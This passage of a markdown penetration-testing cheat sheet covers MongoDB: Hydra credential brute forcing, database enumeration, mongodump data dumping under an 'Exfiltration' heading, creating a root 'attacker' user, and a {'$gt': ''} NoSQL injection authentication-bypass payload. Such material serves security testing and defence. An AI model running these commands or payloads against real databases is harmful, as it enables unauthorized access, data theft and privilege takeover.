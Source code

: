 - Brute force credentials using **Hydra**:
  ```bash
  hydra -l admin -P passwords.txt <target-ip> mongodb
  ```

#### **3. Authorization Testing**
- Enumerate databases:
  ```bash
  show dbs
  ```

- Test for over-permissive roles:
  - Read/write access:
    ```javascript
    db.collection.insertOne({ "test": "data" })
    ```
  - Administrative commands:
    ```javascript
    db.runCommand({ "listDatabases": 1 })
    ```

#### **4. Data Dump and Exfiltration**
- Dump databases using `mongodump`:
  ```bash
  mongodump --host <target-ip> --port 27017 -o dump/
  ```
- Export specific collections:
  ```bash
  mongoexport --db <database> --collection <collection> --out <file.json>
  ```

#### **5. Testing for Network Exposure**
- Check for unrestricted access to MongoDB ports:
  ```bash
  telnet <target-ip> 27017
  ```
- Identify if MongoDB binds to public IP addresses:
  - Look for lines like `bind_ip: 0.0.0.0` in the configuration file.

#### **6. Privilege Escalation**
- Exploit misconfigured roles:
  ```javascript
  db.createUser({
    user: "attacker",
    pwd: "password",
    roles: ["root"]
  });
  ```
  If successful, you’ve gained administrative privileges.

#### **7. Code Injection**
- Test for NoSQL injection in web applications interacting with MongoDB.
  Example vulnerable query:
  ```javascript
  db.users.find({ username: input.username, password: input.password });
  ```
- Test payload:
  ```json
  {"$gt": ""}
  ```
  - This can bypass authentication if the application does not properly validate inputs.
